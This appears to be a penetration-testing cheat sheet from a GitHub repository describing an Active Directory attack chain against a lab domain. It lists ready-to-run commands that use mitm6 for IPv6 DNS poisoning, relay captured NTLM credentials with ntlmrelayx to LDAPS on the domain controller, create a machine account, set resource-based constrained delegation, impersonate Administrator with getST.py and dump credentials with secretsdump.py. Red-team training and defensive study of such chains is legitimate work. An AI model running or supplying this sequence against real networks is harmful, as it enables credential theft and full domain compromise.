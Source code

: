 # DNS Poisoning - Relay delegation with mitm6

## Tool: https://github.com/dirkjanm/mitm6

## Requirements

#### 1) IPv6 enabled (Windows prefers IPV6 over IPv4)

#### 2) LDAP over TLS (LDAPS)

### ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

## Steps

 - mitm6 -hw ws02 -d lab.local --ignore-nofqnd

 - ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad

 - ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer

### Now granting delegation rights and then do a RBCD

 - ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad

 - getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator

 - export KRB5CCNAME=administrator.ccache

 - secretsdump.py -k -no-pass target.lab.local
